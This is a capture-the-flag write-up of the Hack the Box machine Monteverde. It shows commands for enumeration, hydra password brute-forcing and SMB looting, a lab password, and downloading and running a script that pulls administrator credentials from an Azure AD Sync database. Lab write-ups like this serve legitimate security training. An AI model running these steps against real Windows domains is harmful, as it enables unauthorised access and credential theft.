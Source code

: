 +++
author = "Nick"
categories = ["hack the box", "CTF", "ldap", "evil-winrm", "AzureADSync", "easy", "enum4linux", "hydra", "smb", "smbclient", "medium", "windows"]
date = 2020-06-13T15:00:00Z
description = ""
draft = false
thumbnail = "/images/2020/01/info.png"
slug = "hack-the-box-monteverde"
summary = "Welcome back! Today's write-up will be for the Hack the Box machine Monteverde. This is listed as a medium Windows machine."
tags = ["hack the box", "CTF", "ldap", "evil-winrm", "AzureADSync", "easy", "enum4linux", "hydra", "smb", "smbclient", "medium", "windows"]
title = "Hack the Box - Monteverde"
url = "/hack-the-box-monteverde"

+++


Welcome back! Today's write-up will be for the Hack the Box machine Monteverde. This is listed as a medium Windows machine.

Let's jump in!

As always, we start with our standard `nmap` scan: `nmap -sC -sV -p- -oA allscan 10.10.10.172`

Here are our results:
```
Nmap scan report for 10.10.10.172
Host is up (0.19s latency).
Not shown: 65516 filtered ports
PORT      STATE SERVICE       VERSION
53/tcp    open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-01-15 20:40:56Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49702/tcp open  msrpc         Microsoft Windows RPC
49778/tcp open  msrpc         Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=1/15%Time=5E1F7660%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 10m35s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-01-15T20:43:18
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jan 15 15:35:20 2020 -- 1 IP address (1 host up) scanned in 1691.42 seconds
```

We see that we have a bunch of ports open. We see some SMB, RPC, DNS and LDAP. To further our enumeration we will use `enum4linux`. We'll also add `megabank` to our hosts file for further usage.

Command:
`enum4linux -A 10.10.10.172`

This returns a large set of results. The key things we get from this are:

* The domain.
* A user list.
* Domain group memberships.

We'll also try to null authenticate to the SMB port via `smbclient` or `smbmap` but we get no results.

Much like we did in the machine Resolute, we will make a few LDAP queries to see if there is any data stored in the user's AD variables.

Command:
`ldapsearch -x -h megabank -b 'dc=megabank,dc=local' "(&(objectClass=user))" `

We'll take these and put them into a list for use later. I created two lists, one with the domain prefix and another without. We didn't see any data in the AD fields associated with the user accounts. Now we have a few options, with a username list we can try and brute force our way in or continue to look for leaky data and services. Why not both?

First we'll try to use the account name as a password, then we'll try a password list like rockyou. For this we'll use `hydra`. 

Command:
`hydra -L users-nodm.lst -P users-nodm.lst 10.10.10.172 ldap2`

We use the `-L` to specify a username list. 
The `-P` is for a password list.
Then the IP followed by the service we want to use.

![](/images/2020/01/monte_user.gif)

We get a match! `SABatchJobs`:`SABatchJobs`. 

Well, I did not expect that. Normally I would continue with Rockyou.txt but the box is already pretty unstable connection wise, so we'll opt out of that for now and see where we can get with these service account credentials.

Since we have a set of credentials and we know that `WinRM` is running we can try to leverage `evil-winRM`. We try to login but we aren't able to. Next we'll want to try to use these authenticated credentials in order to enumerate the previously spotted `SMB` port.

Command:
`smbmap -u SABatchJobs -p SABatchjobs -H 10.10.10.172`

![](/images/2020/01/monte_smb.gif)

We get a few shares back - C$, E$, azure_uploads, NETLOGON, SYSVOL and users$.

The users$ share is read only, so we'll first start by connecting to this and seeing if there are any credentials saved by the users in thier home directories.

Command:
`smbclient -U SABatchJobs //10.10.10.172/users$`

![](/images/2020/01/image-46.png)

We start looking into each users directory. We only find one file, azure.xml, in mhope's home directory. We download the file with `get`. When we open it up, we see some credentials!

![](/images/2020/01/image-47.png)

Armed with this potential password, we'll try to authenticate as mhope.

Command:
`evil-winrm -i 10.10.10.171 -u mhope -p 4n0therD4y@n0th3r$`

![](/images/2020/01/image-48.png)

We head over to mhope's Desktop and get our User.txt flag. We start to enumerate internally now. We see that `net user mhope` shows him as part of the Azure admins.

![](/images/2020/01/image-49.png)

I then like to run [WindowsEnum.ps1](https://github.com/absolomb/WindowsEnum) on a machine to get a basic idea of my rights and what I can see from the current user. Right away we see Microsoft AADSync. Since I've spent time as a System Engineer, I knew this was the immediate path I would take.

There is a powershell script called [Azure-ADConnect](https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Azure-ADConnect.ps1) that will extract the password from the ADSync database. You can also read more on it [here](https://blog.xpnsec.com/azuread-connect-for-redteam/) as well.

The first thing we do is `curl` or `wget` the script.

Command:
`wget https://raw.githubusercontent.com/Hackplayers/PsCabesha-tools/master/Privesc/Azure-ADConnect.ps1`

Next we upload the file via our Evil-WinRM session.

Command:
`upload Azure-ADConnect.ps1`

Next we import the module. Then supply the database location and name and let it rip!

Command:
`import-module ./Azure-ADConnect.ps1`
`Azure-ADConnect -server 127.0.0.1 -db ADSync`

![](/images/2020/01/monte_admin_cred.gif)

Now we have the Administrator credentials, we can try and log back in via Evil-WinRM to see if they work.

![](/images/2020/01/image-50.png)

They do work! We log in, head over to the Administrator's Desktop and snag the root.txt flag!

Hopefully everyone was able to take something away from this blog post. If so, think about sending me some respect over on HTB. Here's my [profile](https://www.hackthebox.eu/home/users/profile/95635).



